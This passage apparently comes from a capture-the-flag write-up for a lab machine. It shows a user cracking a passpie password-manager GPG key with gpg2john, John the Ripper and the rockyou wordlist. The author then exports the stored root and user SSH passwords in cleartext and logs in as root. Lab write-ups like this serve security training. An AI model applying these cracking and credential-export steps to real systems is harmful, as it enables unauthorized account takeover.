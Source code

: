 ```bash
-rwxr-xr-x 1 jnelson jnelson  48026 Apr 26 10:25 lse.sh.1
-rw-r--r-- 1 jnelson jnelson    347 Apr 26 10:41 pass
dr-xr-x--- 3 jnelson jnelson   4096 Oct 25  2022 .passpie
-rw-r--r-- 1 jnelson jnelson    347 Apr 26 16:46 passpie_cleartext
-rw-r--r-- 1 jnelson jnelson    807 Jun 26  2022 .profile
-rw-r----- 1 root    jnelson     33 Apr 26 05:02 user.txt
```
the .passpie directory pulled my attenton so went to it and I found an ssh directory si CDed into it and I found two files which are jnelson.pass and root.pass and after some research I fount that passpie is a password manager and you can export a password by creating a pass file and exporting the password into it but it needs a praraphrase to export it so I went back the .passpie/ssh directory and discovered that I should crack the root.pass file so used johntheripper
```bash
❯ gpg2john key > gpg.john
❯ john -w=/usr/share/wordlists/rockyou.txt gpg.john 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:02 DONE (2022-10-30 02:23) 0.3663g/s 70.32p/s 70.32c/s 70.32C/s ginger..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
after that you should export the password into the pass file
```
jnelson@meta2:~$ touch pass
jnelson@meta2:~$ passpie export pass
jnelson@meta2:~$ cat pass
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```
And you ssh using root